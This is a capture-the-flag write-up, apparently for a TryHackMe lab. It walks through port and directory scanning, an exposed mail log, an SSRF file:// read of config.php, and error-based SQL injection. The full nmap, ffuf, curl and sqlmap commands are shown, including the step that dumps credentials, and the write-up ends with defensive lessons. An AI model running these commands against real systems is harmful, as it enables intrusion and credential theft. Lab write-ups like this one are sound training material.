






Kill Chain
Recon & Enumeration
Port scan
shell
sudo nmap -sS -sC -sV -p- -T4 10.113.159.163Three open ports: 22 (SSH — OpenSSH 8.2p1), 53 (DNS — ISC BIND 9.16.1), 80 (HTTP — Apache 2.4.41). The web server is the only real attack surface here — SSH needs credentials and DNS isn't usually a starting point on a web challenge.
Directory enumeration
shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt \
-u http://10.113.159.163/FUZZ \
-e .phpSeveral interesting hits come back immediately:
api.php — API documentation page. Worth reading carefully.mail/ — directory listing or log files. Not linked from anywhere on the site.dashboard.php — redirects to login. Exists but requires auth.config.php — returns empty body (0 bytes). File exists server-side but outputs nothing directly — PHP is executing it, not serving it as text.file.php — returns a short message. Combined with the API docs, this becomes the SSRF vector.Vhost enumeration
shell
gobuster vhost -u http://recruit.thm \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
--append-domain \
--exclude-length 291,292,293,294,295,296,297,298,299,300,302 \
--exclude-status 302No useful vhosts found — all responses are 400. The attack stays on the main domain.
Log Analysis — Intelligence Gathering
The /mail/ directory found during enumeration is accessible without authentication. Inside: mail.log — a Postfix mail server log file left in the web root.

The email body reveals two things directly:
① HR credentials (username:
hr) are stored in config.php — "for ease of access during the initial rollout phase"② Admin credentials are not in config files — they're in the backend database
This tells us the exact path of the next two steps: read config.php to get HR access, then hit the database for admin creds.
/var/log/mail.log by default. Someone configured the web root to include the mail/ directory — or symlinked the log there — and Apache serves it as a static file. This is a misconfigured web root combined with overly verbose logging that includes email body content.SSRF → Reading config.php
API documentation

The API docs document an endpoint designed to fetch candidate CV files by URL: /file.php?cv=<URL>. The intended use is fetching remote HTTP URLs. The vulnerability: the server makes this request itself — and doesn't restrict the file:// protocol, meaning we can read files from the server's own filesystem.
file:// URIs are permitted, the server reads local filesystem paths and returns their contents — turning SSRF into arbitrary local file read. The request comes from the server itself (127.0.0.1), bypassing any network-level restrictions.Exploitation
shell
curl -s "http://recruit.thm/file.php?cv=file:///var/www/html/config.php"
The raw PHP source of config.php is returned. The relevant section:
config.php — extracted
/* HR Credentials (Temporary — Initial Rollout Phase) */
/* NOTE: stored here temporarily, will be moved to database in a future release */
$HR_PASSWORD = '$PASS';hr · password: $PASS — exactly as hinted in the log email.SQL Injection — Dumping Admin Credentials
Finding the injection point
Logging in as hr:$PASS gives access to the candidate dashboard at /dashboard.php. The dashboard has a search field — a classic target for SQL injection testing. Sending a single quote ' as the search query through Burp Suite produces a raw MySQL error in the response.

The error message is returned directly to the client — this is error-based SQL injection, the most straightforward type to exploit. The application is passing the search parameter directly into a SQL query without parameterisation.
SELECT * FROM applicants WHERE name LIKE '%{search}%'When
search = ', the query becomes malformed SQL and MySQL returns a syntax error — which the application helpfully displays to the user. This both confirms the injection and tells us the database type and version constraints.
Automated exploitation with sqlmap
With the injection confirmed and a valid session cookie (PHPSESSID), sqlmap can automate the full extraction. The --cookie flag is essential — without it, sqlmap hits the login redirect and never reaches the vulnerable endpoint.
shell — step 1: enumerate databases
sqlmap -u "http://recruit.thm/dashboard.php?search=test" \
--cookie="PHPSESSID=ltjjo4vl5revk9ln8h97i1o1gi" \
--dbs --batch --delay=1
# Found: recruit_dbshell — step 2: enumerate tables
sqlmap -u "http://recruit.thm/dashboard.php?search=test" \
--cookie="PHPSESSID=ltjjo4vl5revk9ln8h97i1o1gi" \
-D recruit_db --tables --batch --delay=1
# Found: usersshell — step 3: dump credentials
sqlmap -u "http://recruit.thm/dashboard.php?search=test" \
--cookie="PHPSESSID=ltjjo4vl5revk9ln8h97i1o1gi" \
-D recruit_db -T users \
-C username,password \
--dump --batch --delay=1
sqlmap identifies and uses four injection techniques simultaneously — boolean-based blind, error-based, time-based blind, and UNION query. The users table contains one entry:
admin · password: $PASSFlags
Logging in as hr reveals the HR flag directly on the dashboard. Logging in as admin with the dumped credentials shows the Admin flag.

flags
HR Flag : THM{FLAG}
Admin Flag : THM{FLAG}Key Takeaways
/mail/mail.log was accessible without auth and contained an internal email with a direct credential hint. Log files belong in /var/log/, not served by Apache. Check your web root for anything that shouldn't be there.file:// URI scheme lets the server read its own filesystem. Any endpoint that fetches user-supplied URLs must have an explicit allowlist of protocols (HTTP/HTTPS only) and domains. A denylist will always be bypassed.PDO::prepare() or mysqli_prepare(). Parameterised queries make this category of vulnerability structurally impossible regardless of what the user submits.